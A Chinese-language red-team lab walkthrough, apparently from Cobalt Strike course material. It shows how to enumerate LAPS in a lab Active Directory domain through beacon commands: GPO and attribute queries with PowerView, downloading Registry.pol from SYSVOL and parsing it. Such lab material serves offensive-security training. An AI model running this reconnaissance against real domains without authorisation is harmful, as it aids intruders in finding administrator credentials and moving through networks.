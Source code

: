 # Local Administrator Password Solution


有几种方法可以寻找 LAPS 的存在。如果 LAPS 应用于您有权访问的计算机，则AdmPwd.dll将在磁盘上

```
beacon> run hostname
wkstn-1

beacon> ls C:\Program Files\LAPS\CSE

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 145kb    fil     09/22/2016 08:02:08   AdmPwd.dll
```

查找名称中包含“LAPS”或其他一些描述性术语的 GPO
```
beacon> powershell Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

displayname    : LAPS
name           : {4A8A4E8E-929F-401A-95BD-A7D40E0976C8}
gpcfilesyspath : \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}
```

搜索```ms-Mcs-AdmPwdExpirationTime```属性不为空的计算机对象（任何域用户都可以读取此属性）
```
beacon> powershell Get-DomainObject -SearchBase "LDAP://DC=dev,DC=cyberbotic,DC=io" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname

dnshostname              
-----------              
wkstn-1.dev.cyberbotic.io
wkstn-2.dev.cyberbotic.io
```

如果我们能找到正确的GPO，我们可以从```gpcfilesyspath```下载LAPS的配置文件
```
beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     03/16/2021 16:59:45   Scripts
 575b     fil     03/16/2021 17:11:46   comment.cmtx
 740b     fil     03/16/2021 17:11:46   Registry.pol

beacon> download \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol
[*] started download of \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol (740 bytes)
[*] download of Registry.pol is complete
```
## GPRegistryPolicyParser
[GPRegistryPolicyParser](https://github.com/PowerShell/GPRegistryPolicyParser)这个工具里的```Parse-PolFile```方法可以把上面的配置文件转成人类可读的格式
```
PS C:\Users\Administrator\Desktop> Parse-PolFile .\Registry.pol

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordComplexity
ValueType   : REG_DWORD
ValueLength : 4
```